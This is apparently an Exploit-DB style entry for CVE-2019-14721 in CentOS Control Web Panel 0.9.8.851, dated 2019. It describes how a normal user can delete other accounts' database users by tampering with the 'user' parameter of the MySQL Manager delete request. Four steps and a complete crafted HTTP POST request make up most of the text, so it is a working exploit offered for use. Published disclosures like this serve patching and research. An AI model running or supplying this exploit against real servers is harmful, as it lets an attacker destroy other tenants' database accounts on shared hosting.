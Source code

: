 Exploit Title       : CWP (CentOS Control Web Panel) Remove user from phpMyAdmin via an attacker account
Date                : 24 Jul 2019
Exploit Author      : Pongtorn Angsuchotmetee, Nissana Sirijirakal, Narin Boonwasanarak
Vendor Homepage     : https://control-webpanel.com/
Software Link       : Not available, user panel only available for lastest version
Version             : 0.9.8.851
Tested on           : CentOS 7.6.1810 (Core) FireFox 68.0.1 (64-bit)
CVE-Number          : CVE-2019-14721
Reference	    : N/A

1. Log in as a normal user.
2. Go to "MySQL Manager"
3. Try to delete any database user from the account
4. Intercept the request, and modify parameter "user" to other username
(such as user in /etc/passwd, they are automatically added to database user by default)

POST /cwp_47e1d536a096e42d/alice/alice/index.php?module=mysql_manager&acc=deleteuserdb HTTP/1.1
Host: 192.168.80.148:2083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
csrftoken: 9a1f7869d43544fc9f509cb6ac7bf430
X-Requested-With: XMLHttpRequest
Content-Length: 31
Connection: close
Referer: https://192.168.80.148:2083/cwp_47e1d536a096e42d/alice/?module=mysql_manager
Cookie: PHPSESSID=i2is5am08ru7a2h93e13llp9e2

user=<TARGET-USER>&host=localhost
